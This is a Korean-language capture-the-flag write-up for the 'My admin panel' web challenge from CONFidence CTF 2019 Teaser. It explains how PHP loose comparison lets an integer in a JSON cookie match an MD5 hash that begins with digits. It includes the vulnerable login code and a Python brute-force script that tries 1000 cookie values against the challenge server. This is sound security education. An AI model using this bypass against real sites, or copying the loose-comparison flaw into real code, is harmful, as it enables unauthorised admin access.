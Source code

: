```yaml
---
layout: post
title: My admin panel
category: Web
source: "CONFidence CTF 2019 Teaser"
rpath: /resource/My_admin_panel
tag: [php, type_confusion]
---
```


**Category**: Web

**Source**: CONFidence CTF 2019 Teaser

**Points**: ???

**Author**: Jisoon Park(js00n.park)

**Description:** 

> I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?
> 
> https://gameserver.zajebistyc.tf/admin/

## Write-up

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

주어진 사이트로 들어가 보면 login.php와 login.php.bak를 볼 수 있다. .bak 파일은 login.php의 소스 코드를 보여주기 위해 만들어 둔 것 같다. 코드를 살펴보자.

```php
[...]

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

otadmin이라는 쿠키를 만들어 줘야 하는데, 숫자와 A-Z로 구성된 hash 값을 JSON 형태로 보내야 한다. 우리가 보낸 값이 $cfg_pass 변수의 md5 hash와 동일하면 admin 관련 내용을 보여주도록 되어 있다.

php에서 문자열과 입력값을 비교할 때는 type confusion을 생각해 봐야 한다. 일단, 알파벳으로 시작하는 문자열은 0과 비교했을 때 true이니, hash 값으로 정수 0을 보내보자.

![img]({{page.rpath|prepend:site.baseurl}}/hint.png)

if 문의 조건을 통과하지 못하는 것을 보니 MD5 hash의 결과가 알파벳으로 시작하지는 않는 것 같다. 힌트로 주는 문자열은 0과 64의 조합이다. 이 문자열은 $cfg_pass 변수의 MD5 해쉬 결과(문자열)의 각 자리에 대한 ascii code에 0xC0를 and 연산 한 결과이다. 0xC0는 이진수로 쓰면 11000000b로, and 연산했을 때 64 미만의 수에 대해서는 0이 나온다. MD5 hash 결과는 숫자 또는 A부터 F 까지의 문자로 구성되어 있을 테니, 이 결과가 0이면 해당 자리가 숫자이고 64이면 문자라는 뜻이다.

결국, MD5($cfg_pass)는 숫자|숫자|숫자|문자|문자|문자|숫자|문자|.... 의 형식으로 구성되어 있다는 뜻이다.

이 힌트에서 얻어야 하는 부분은 맨 앞에 연속된 숫자로 구성된 자릿수가 3자리 라는 것이다. php는 문자열과 숫자를 비교할 때, 문자열이 숫자로 시작하면 그 부분만 숫자로 인식하여 비교한다. (예를 들면, **"123AAA" == 123** 를 true로 판단한다.)

세 자리 숫자에 대한 경우의 수는 1000가지이니, 간단하게 brute-force 해볼 수 있을 것 같다.

아래와 같은 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 작성하여 쉽게 찾을 수 있었고, 그 결과 flag를 받았다.

```python
import requests

url = "https://gameserver.zajebistyc.tf/admin/login.php"

for i in range(1000):
  cookies = {"otadmin": '{"hash": %03d}'%i}
  print cookies
  response = requests.get(url, cookies=cookies)
  print response.status_code
  print response.text
```

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **p4{wtf_php_comparisons_how_do_they_work}**
